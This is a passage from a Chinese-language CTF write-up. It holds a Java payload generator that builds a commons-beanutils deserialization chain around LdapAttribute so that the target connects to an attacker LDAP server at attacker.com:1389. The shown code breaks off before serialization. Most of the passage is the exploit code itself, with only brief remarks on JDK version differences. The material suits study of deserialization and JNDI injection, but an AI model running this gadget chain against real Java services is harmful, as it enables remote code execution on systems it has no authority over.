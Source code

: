 下面都是通用的低版本中的TreeMap是compare，但是jdk8就是compareto了

#### `如果拿jdk8版本打,把上面的替换成下面这个按理说也是可以打通的`

（直接jdk8+CB 依赖）有空了就补上

![image-20231010212146662](..\img\final\image-20231010212146662.png)





### 这是这道题jdk 1.4的payload：

```java

import org.apache.commons.beanutils.BeanComparator;
import javax.naming.CompositeName;
import java.io.FileOutputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.TreeMap;
public class PayloadGenerator {
public static void main(String[] args) throws Exception {
        String ldapCtxUrl = "ldap://attacker.com:1389";
        Class ldapAttributeClazz = Class.forName("com.sun.jndi.ldap.LdapAttribute");
        Constructor ldapAttributeClazzConstructor = ldapAttributeClazz.getDeclaredConstructor(
new Class[] {String.class});
        ldapAttributeClazzConstructor.setAccessible(true);
        Object ldapAttribute = ldapAttributeClazzConstructor.newInstance(
new Object[] {"name"});
        Field baseCtxUrlField = ldapAttributeClazz.getDeclaredField("baseCtxURL");
        baseCtxUrlField.setAccessible(true);
        baseCtxUrlField.set(ldapAttribute, ldapCtxUrl);
        Field rdnField = ldapAttributeClazz.getDeclaredField("rdn");
        rdnField.setAccessible(true);
        rdnField.set(ldapAttribute, new CompositeName("a//b"));
// Generate payload
        BeanComparator comparator = new BeanComparator("class");
        TreeMap treeMap1 = new TreeMap(comparator);
        treeMap1.put(ldapAttribute, "aaa");
        TreeMap treeMap2 = new TreeMap(comparator);
        treeMap2.put(ldapAttribute, "aaa");
        HashMap hashMap = new HashMap();
        hashMap.put(treeMap1, "bbb");
```